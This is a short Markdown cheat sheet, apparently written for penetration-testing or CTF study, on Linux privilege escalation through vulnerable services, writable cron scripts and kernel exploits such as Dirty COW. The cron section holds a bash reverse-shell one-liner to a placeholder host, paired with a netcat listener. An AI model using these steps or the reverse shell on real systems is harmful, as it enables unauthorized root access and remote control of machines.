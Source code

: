 ### Service Exploit
1.   If there is some unusual service, look for version numbers and look in searchsploit, google, github
2.   `ps aux | grep "^root"` show all processes running as root.
3.   `./lse.sh -i -l 1`and see services running with root
4.   `<program> --version` or  `dpkg -l | grep <program>` for debian or  `rpm –qa | grep <program>` for rpm. Enumerate version to exploit.


### Cronjobs
1.  `cat /etc/crontab` View the content of what is running regularly 
2.  `locate <File>` Find out where the file location is.
3.  `ls -l /PATH/SOMEFILE.SH` check the file permission if we can read or write.
4.  `bash -i >& /dev/tcp/MYIP/PORT 0>&1` add a revershell if it is writeable
5.  start a nc listener
6.  
### Kernal Exploit (last resort)
1. Check winpeas for possible kernel exploits.
2.`uname -a` `cat /etc/issue` Enumerate kernel version
3. Find matching exploits (Google, ExploitDB, GitHub) ` searchsploit <KERNAL VERSION> priv esc` on kali
4. https://www.exploit-db.com/exploits/44298 (check this one out :) )
5. https://github.com/jondonas/linux-exploit-suggester-2 . Or check Kernal Vulnerability. Transfer file and run
6. `./linux-exploit-suggester-2.pl –k <KERNAL VERSION> ` (dirty cow is a popular exploit)
7. Enter `/usr/bin/passwd ` to get  a root shell
8. Kernal exploit may be a one shot ...and may crash the system. /usr/bin/passwd 



